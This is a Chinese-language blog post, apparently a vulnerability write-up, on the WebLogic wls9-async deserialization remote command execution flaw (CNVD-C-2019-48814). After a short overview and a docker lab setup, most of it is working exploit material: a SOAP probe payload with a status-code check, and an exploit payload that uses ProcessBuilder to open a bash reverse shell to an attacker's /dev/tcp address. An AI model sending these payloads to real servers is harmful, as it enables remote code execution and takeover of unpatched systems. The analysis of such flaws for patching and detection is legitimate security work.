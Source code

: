 ```yaml
---
layout: post
title:  " weblogic 远程命令执行漏洞分析 (CNVD-C-2019-48814)"
date:   2019-8-2 10:18:43
categories: Development
author: co0ontty
categories: 安全开发 漏洞研究 ALL
tags: 安全开发 漏洞研究 ALL
describe: weblogic 远程命令执行漏洞
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```

## weblogic 远程命令执行漏洞  (CNVD-C-2019-48814）
### 漏洞概述
该漏洞存在于 wls9-async 组件，这个组件主要作用是异步通讯服务，攻击者可以向 /_async/AsyncResponseService 路径下传入构造好的恶意 xml 格式的数据，传入的数据在服务器端反序列化时，执行其中的恶意代码，从而可以 getshell。
### 漏洞环境搭建
docker 快速启动：
```bash
docker pull ismaleiva90/weblogic12

docker run -d -p 7001:7001 -p 7002:7002 --restart=always ismaleiva90/weblogic12:latest
```
访问：ip:7001/_async/AsyncResponseService 查看 wls9-async 组件是否启动成功
![avatar](/assets/img/posts/20190426101059760.png)
nmap 检测插件 [weblogic.nse](https://github.com/Rvn0xsy/nse_vuln/tree/master/weblogic/CNVD-C-2019-4814)

### 漏洞复现
#### Poc：
向/_async/AsyncResponseService发送XMLPoc，连接类型content-type: text/xml：
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="POC">
<array class="xx" length="0">
</array>
<void method="start"/>
</void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>
```
如果 res.status_code == 202 则可以判断存在漏洞

#### Exp：
向/_async/AsyncResponseService发送XMLPoc，连接类型content-type: text/xml：
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
